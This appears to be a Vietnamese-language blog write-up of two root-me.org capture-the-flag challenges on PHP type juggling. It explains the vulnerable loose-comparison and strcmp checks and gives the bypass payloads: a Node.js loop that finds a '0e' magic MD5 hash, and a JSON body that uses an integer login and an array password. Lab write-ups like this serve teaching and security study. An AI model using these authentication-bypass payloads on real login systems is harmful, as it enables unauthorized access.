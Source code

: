 ```yaml
---
title: "[root-me.org] PHP type juggling - PHP Loose Comparison "
date: 2019-01-30T20:02:08+07:00
draft: false
tags: [CTF,root-me.org,PHP]
---
```

---
# LIST OF CHALLGENGE
|ID| Challgenge  | Done  |
|------------| ------------ | ------------ |
|**1**|[**PHP - Loose Comparison**](#1)  |  ✅ |
|**2**|[**PHP type juggling**](#2) | ✅  |

**Note:** [Books](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf)

---
<a name="1"></a>
# PHP - Loose Comparison
- **Link:** `http://challenge01.root-me.org/web-serveur/ch55/`
- **Challenge:** Bypass authentication with sourcecode
- **Giải thích:** Đề bài sẽ cho sẵn source code, nhập vài 2 input `seed` và `hash`. Input `seed` chỉ nhận kí tự a-Z và 0-9, hash cũng tương tự
Đề bài tăng độ khó bằng cách ngẫu nhiên tạo số random và gắn sau `seed`

```php
    if($s != false && $h != false) {
        if($s.$r == $h) {
    ...
```

- **Hướng đi:** Ko nhập kí tự 0 đơn lẻ và phải bypass `==` 🍌 đơn giản là đi kèm `0` với một kí tự bất kì (0e,0f,0g,...);

- **Payload:**

```javascript
    //NodeJS
    const crypto = require('crypto');
    const md5 = text => crypto.createHash('md5').update(text).digest('hex')
    
    for (let i = 0; i < 99999999999; i++) {
        let hash = md5(i.toString());
        if (hash.substring(0, 2) == "0e" && (!!hash.substring(2, hash.length).match(/^[0-9]+$/))) {
            console.log(`[+] Successfull:${i}`);
            break;
        } else {
            console.log(`[-] Fail:${i}`);
        }
    }
    // seed = 0e
    // hash = 240610708
```

<img src="https://raw.githubusercontent.com/saddean/blogs/master/static/img/root-me/php/1.jpg" class="img-responsive">

---
<a name="2"></a>
# PHP - PHP type juggling
- **Link:** `http://challenge01.root-me.org/web-serveur/ch44/`
- **Challenge:** Bypass authentication with sourcecode
- **Giải Thích:** Nhập trường `login` và `password` , site sẽ thực thi script mã hóa `password` và chuyển `data` thành `JSON` để
thực hiện `ajax` gửi lên server.

```php
    if (isset($_POST["auth"]))  { 
        // retrieve JSON data
        $auth = @json_decode($_POST['auth'], true);
        
        // check login and password (sha256)
        if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
    ...
```

- **Hướng đi:** Ở đây chúng ta phải bypass 2 phần là `==` và `strcmp`, để bypass `$USER` khá đơn giản chỉ cần so sánh int(0) (mình đoán mò username là 'admin' =)), còn hàm 
`strcmp` chỉ cần trường password là `array`.

- **Payload:** có nhiều cách để làm bài này , debug ở client để thay đổi dữ liệu `json`, hoặc dùng brupsuite ...

```json
{"data":{"login":0,"password":[]}}

```

<img src="https://raw.githubusercontent.com/saddean/blogs/master/static/img/root-me/php/2.jpg" class="img-responsive">